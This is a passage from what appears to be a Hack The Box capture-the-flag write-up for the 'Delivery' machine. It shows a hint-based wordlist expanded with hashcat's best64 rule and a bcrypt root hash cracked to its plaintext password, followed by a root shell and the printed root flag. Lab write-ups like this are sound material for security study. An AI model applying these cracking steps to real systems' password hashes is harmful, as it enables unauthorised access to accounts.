 ![Image 15](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Delivery/15.png)

// Next we need a wordlist, Based on the comments from Mattermost, lets make a little wordlist

    $ cat passwords_list 
    
    pass
    password1
    p4ssw0rd
    PleaseSubScribe
    PleaseSubscribe!

// Since have a hint that earlier mention of “hashcat” as a guide,

// we will create a password list using the best64.rule haschat .rule file that will based on our small wordlist.

    $ hashcat -r /usr/share/hashcat/rules/best64.rule --stdout passwords_list > passwords.txt

// And now we can BruteForce the hash using our new list

    $ hashcat -m 3200 root_hash.txt passwords.txt 
    ...
    $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
    ...                                        

// We have root password !!!

    maildeliverer@Delivery:~$ su -
    Password: 
    root@Delivery:~# id
    uid=0(root) gid=0(root) groups=0(root)

// And root flag !!!!

    root@Delivery:~# cat /root/root.txt 
    0a37d20cfd8ea1f611377419902ebdea
